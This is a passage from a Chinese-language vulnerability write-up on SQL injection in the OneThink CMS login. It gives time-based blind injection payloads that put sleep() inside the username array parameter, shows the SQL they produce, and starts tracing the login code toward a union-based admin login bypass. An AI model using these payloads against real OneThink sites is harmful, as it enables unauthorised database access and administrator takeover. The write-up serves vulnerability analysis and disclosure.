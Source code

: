     username[0]=exp&username[1]=>(select 1 from (select sleep(3))x)&password=2&verify=0x401

![9.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId33.png)

实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        > (select 1 from (select sleep(3))x))  )

**payload3-between注入**

    username[0]=BETWEEN 1 and ( select 1 from (select sleep(2))x)))--+-&username[1]=&password=2&verify=0x401

![10.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId34.png)

    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        BETWEEN 1 AND ( SELECT 1 FROM (SELECT SLEEP(2))X)))-- - '' AND null ) ) LIMIT 1

ok，现在有了注入，我们就能使用联合查询，来绕过后台用户登录，实现\"万能密码\"的效果。但在这之前，还需要分析完整的登录逻辑。

登录逻辑分析
------------

使用[FileMonitor](https://github.com/ianxtianxt/FileMonitor)工具，得到后台登录处的SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` = '1' ) LIMIT 1

而数据表`onethink_ucenter_member`的结构如下图，有11列，那么联合注入就需要构造11个参数`union select 1,2,3,4,...,11`

![11.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId37.png)

接着发现登录处的链接为`http://www.0-sec.org/index.php?s=/admin/public/login.html`，跟入源码

![12.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId38.png)

    # OneThink\Application\Admin\Controller\PublicController.class.php : 31L
    public function login($username = null, $password = null, $verify = null){
    ...
     $User = new UserApi;
                $uid = $User->login($username, $password);
    ...

跟进`UcenterMemberModel`类，进入`login`函数

    # /OneThink/Application/User/Api/UserApi.class.php  #42L
    ...
        protected function _init(){
            $this->model = new UcenterMemberModel();    //初始化
        }

    ...
        public function login($username, $password, $type = 1){
            return $this->model->login($username, $password, $type);
        }
